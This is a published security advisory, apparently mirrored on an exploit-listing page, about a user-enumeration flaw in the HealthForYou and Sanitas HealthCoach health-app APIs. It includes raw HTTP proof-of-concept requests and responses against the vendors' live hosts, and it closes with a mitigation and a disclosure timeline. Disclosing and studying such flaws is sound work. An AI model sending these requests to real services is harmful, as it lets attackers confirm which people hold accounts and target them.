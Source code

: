 <languages /> <translate>

漏洞利用
--------

</translate>

    # Trovent Security Advisory 2104-01 #
    #####################################


    User enumeration through API
    ############################


    Overview
    ########

    Advisory ID: TRSA-2104-01
    Advisory version: 1.0
    Advisory status: Public
    Advisory URL: https://trovent.io/security-advisory-2104-01
    Affected product: HealthForYou & Sanitas HealthCoach mobile and web applications
    Tested versions: HealthForYou 1.11.1 (com.hansdinslage.connect.HealthForYou),
                     HealthCoach 2.9.2 (de.sanitas_online.healthcoach)
    Vendor: Hans Dinslage GmbH (subsidiary of Beurer GmbH https://www.beurer.com)
    Credits: Trovent Security GmbH, Nick Decker


    Detailed description
    ####################

    Trovent Security GmbH discovered a vulnerability in the server API of
    the mobile apps Sanitas HealthCoach and HealthForYou.
    The API call "/BHMCWebAPI/User/GetIsUserAlreadyExists/?emailId=" allows
    to easily enumerate registered usernames and email addresses.
    This knowledge could aid an attacker with further exploits as
    demonstrated by TRSA-2104-02.

    Severity: Medium
    CVSS Score: 5.3 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N)
    CWE ID: CWE-203
    CVE ID: N/A


    Proof of concept
    ################

    HealthForYou
    ############

    Sample request to check if my colleague's email address is registered:

    REQUEST:

    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


    GET /BHMCWebAPI/User/GetIsUserAlreadyExists/?emailId=s.pietsch@trovent.io HTTP/1.1
    Content-Type: application/json; charset=UTF-8
    Accept-Encoding: gzip, deflate
    User-Agent: Dalvik/2.1.0 (Linux; U; Android 10; ONEPLUS A6003 Build/QKQ1.190716.003)
    Host: sync.healthforyou-lidl.com
    Connection: close
    Content-Length: 0


    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    RESPONSE:

    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


    HTTP/1.1 200 OK
    x-frame-options: SAMEORIGIN
    x-xss-protection: 1; mode=block
    content-type: application/json; charset=utf-8
    content-length: 4
    etag: W/"4-X/5TO4MPCKAyY0ipFgr6/IraRNs"
    date: Wed, 28 Apr 2021 11:25:24 GMT
    x-envoy-upstream-service-time: 118
    server: istio-envoy
    connection: close

    true


    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



    HealthCoach
    ###########

    Sample request to check if my colleague's email address is registered:

    REQUEST:

    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


    GET /BHMCWebAPI/User/GetIsUserAlreadyExists/?emailId=s.pietsch@trovent.io HTTP/1.1
    Content-Type: application/json; charset=UTF-8
    Accept-Encoding: gzip, deflate
    User-Agent: Dalvik/2.1.0 (Linux; U; Android 10; ONEPLUS A6003 Build/QKQ1.190716.003)
    Host: sync.connect-sanitas-online.de
    Connection: close
    Content-Length: 0


    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    RESPONSE:

    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


    HTTP/1.1 200 OK
    x-frame-options: SAMEORIGIN
    x-xss-protection: 1; mode=block
    content-type: application/json; charset=utf-8
    content-length: 4
    etag: W/"4-X/5TO4MPCKAyY0ipFgr6/IraRNs"
    date: Wed, 28 Apr 2021 11:34:02 GMT
    x-envoy-upstream-service-time: 78
    server: istio-envoy
    connection: close

    true


    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


    Solution / Workaround
    #####################

    To mitigate this vulnerability, we recommend to disable this API call.
    In general it is recommended to prevent attackers from enumerating valid usernames.


    History
    #######

    2021-04-27: Vulnerability found
    2021-04-28: Advisory created, vendor and BSI contacted
    2021-04-30: Vendor acknowledged the vulnerability to Trovent and BSI
    2021-06-04: Advisory published